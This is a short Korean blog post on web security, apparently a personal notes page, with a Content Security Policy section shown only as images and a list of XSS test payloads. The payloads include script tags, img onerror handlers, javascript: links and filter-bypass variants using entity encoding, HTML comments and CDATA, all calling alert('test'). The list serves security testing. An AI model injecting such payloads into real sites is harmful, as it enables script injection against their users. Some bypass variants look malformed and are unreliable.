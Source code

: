 ```yaml
---
layout: post
title:  "CSP와 XSS테스트 코드"
summary: ""
author: yoo94
date: '2023-04-01 17:35:23 +0530'
category: websecurity
tags: websecurity
keywords: websecurity
thumbnail: https://i.namu.wiki/i/kq9NDC2Dsxbpqwn1L4dDwjo4fH7A9Rb76kbTrqpRirwq1VjPHDyr0Rp_P_Y0MhxFadKjqT5yBClhRDIWxapZNIdIrW8EkbT6KVv90O9wZqZ0ouYllY8gkIa39etQZDdg1d2fR6odJZ7_hYgF4FaLXg.webp
permalink: /blog/XSS/
---
```


## CSP 콘텐츠 보안정책

<img src="/assets/postImg/Pasted image 20240205203449.png" alt="Pasted image 20240205203449.png" style="max-width:100%;">
<img src="/assets/postImg/Pasted image 20240205203510.png" alt="Pasted image 20240205203510.png" style="max-width:100%;">


## xss테스트

테스트 방법

<script>alert('test');</script>
<img src=x onerror=alert('test')>
<a href="javascript:alert('test')">Click me</a>

--------------------------------------------------------

이스케이프(escaping) 우회 시도
<scr\ipt>alert('test');</scr\ipt>
<img src=x onerror=ale&#x72t('test')>
<a href="jav&#x61script:alert('test')">Click me</a>

--------------------------------------------------------

이벤트 핸들러 우회 시도
<img src=x onerror=alert('test')>
<img src=x onerror="alert('test')">
<img src=x onerror=alert\('test'\)>

--------------------------------------------------------

HTML 주석을 이용한 우회 시도
<!--<img src=x onerror=alert('test')>-->
<!--><img src=x onerror=alert('test')><!-->
<![CDATA[<script>alert('test');</script>]]>

--------------------------------------------------------

스크립트 블록을 이용한 우회 시도:
<img src=x onerror="javascript:alert('test')">
<img src=x onerror="data:text/html,<script>alert('test');</script>">